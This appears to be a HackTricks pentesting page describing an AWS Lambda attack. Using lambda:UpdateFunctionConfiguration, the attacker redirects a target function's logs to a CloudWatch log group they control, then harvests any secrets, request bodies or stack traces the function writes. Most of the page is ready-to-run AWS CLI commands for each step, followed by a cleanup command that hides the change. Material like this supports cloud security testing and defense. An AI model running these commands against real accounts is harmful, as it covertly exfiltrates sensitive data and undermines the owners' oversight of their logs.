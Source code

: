 # AWS Lambda – Log Siphon via LoggingConfig.LogGroup Redirection

{{#include ../../../../banners/hacktricks-training.md}}

Abuse `lambda:UpdateFunctionConfiguration` advanced logging controls to redirect a function’s logs to an attacker-chosen CloudWatch Logs log group. This works without changing code or the execution role (most Lambda roles already include `logs:CreateLogGroup/CreateLogStream/PutLogEvents` via `AWSLambdaBasicExecutionRole`). If the function prints secrets/request bodies or crashes with stack traces, you can collect them from the new log group.

## Required permissions
- lambda:UpdateFunctionConfiguration
- lambda:GetFunctionConfiguration
- lambda:InvokeFunction (or rely on existing triggers)
- logs:CreateLogGroup (often not required if the function role has it)
- logs:FilterLogEvents (to read events)

## Steps
1) Create a sink log group

```
aws logs create-log-group --log-group-name "/aws/hacktricks/ht-log-sink" --region us-east-1 || true
```

2) Redirect the target function logs
```
aws lambda update-function-configuration \
  --function-name <TARGET_FN> \
  --logging-config LogGroup=/aws/hacktricks/ht-log-sink,LogFormat=JSON,ApplicationLogLevel=DEBUG \
  --region us-east-1
```
Wait until `LastUpdateStatus` becomes `Successful`:
```
aws lambda get-function-configuration --function-name <TARGET_FN> \
  --query LastUpdateStatus --output text
```

3) Invoke and read from the sink
```
aws lambda invoke --function-name <TARGET_FN> /tmp/out.json --payload '{"ht":"log"}' --region us-east-1 >/dev/null
sleep 5
aws logs filter-log-events --log-group-name "/aws/hacktricks/ht-log-sink" --limit 50 --region us-east-1 --query 'events[].message' --output text
```

## Impact
- Covertly redirect all application/system logs to a log group you control, bypassing expectations that logs only land in `/aws/lambda/<fn>`.
- Exfiltrate sensitive data printed by the function or surfaced in errors.

## Cleanup
```
aws lambda update-function-configuration --function-name <TARGET_FN> \
  --logging-config LogGroup=/aws/lambda/<TARGET_FN>,LogFormat=Text,ApplicationLogLevel=INFO \
  --region us-east-1 || true
```

## Notes
- Logging controls are part of Lambda’s `LoggingConfig` (LogGroup, LogFormat, ApplicationLogLevel, SystemLogLevel).
- By default, Lambda sends logs to `/aws/lambda/<function>`, but you can point to any log group name; Lambda (or the execution role) will create it if allowed.

{{#include ../../../../banners/hacktricks-training.md}}
